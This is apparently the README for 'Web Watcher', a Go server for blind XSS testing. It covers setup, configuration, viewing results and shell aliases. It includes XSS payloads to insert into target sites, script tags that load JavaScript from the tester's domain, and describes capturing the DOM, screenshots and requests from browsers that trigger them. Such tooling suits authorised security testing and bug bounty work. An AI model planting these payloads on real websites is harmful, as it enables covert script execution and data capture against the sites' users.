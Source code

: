 # Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
git clone https://github.com/pichik/webwatcher
```
2. Build application
```
sudo go build -o /usr/local/bin/webwatcher webwatcher/main.go
```
3. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
``` 
3. Fill `.wwconfig` and add it to your home directory.  
4. Move web directory to a place specified in config.  
5. Remove the rest.

All files in `assets/` are publicly accessible.  
If you are running https, directory with certificates should be generated.  

Change domain in bait.js to your domain name.
## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](screenshots/results.png)  


### Collecting simple data from Collector path
This endpoint will contain response specified in `assets/extensions.json` file  
```
  "js": {
    "Extension": [".js", ".mjs"],
    "Content-Type": "application/javascript",
    "Payload": "alert(document.domain)"
  }
```   
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/pichik.js></script>`  
This endpoint use regex `pichik.*` so you can use `pichik-anything/after/counts.html`  

### Collecting data from blind XSS  
You can use any endpoint for testing blind XSS, but dont use your collector path for this, as it have priority, so no blind XSS payload will be send.  
Detailed report will be created, with DOM and Screenshot.  
These request will be sent to slack, if specified in config.  
`<script src=https://domain.com></script>`  
![blind xss](screenshots/blindxss.png)  


## Aliases
Useful linux aliases  
```
alias webstep='sudo mv ~/main /usr/local/bin/ww'
alias webstep2='sudo setcap CAP_NET_BIND_SERVICE+ep /usr/local/bin/ww'
alias wwinstal='webstep && webstep2; echo "Web watcher installed"'

alias wwstart='nohup ww >/dev/null 2>&1 & echo "Web watcher started"'
alias wwstop='pkill ww; echo "Web watcher stopped"'
alias wwrestart='wwstop;wwstart; echo "Web watcher restarted"'
alias wwdebug='tail -f ~/web/logs/debug.txt'
alias wwlog='tail -f ~/web/logs/requests.txt'
```
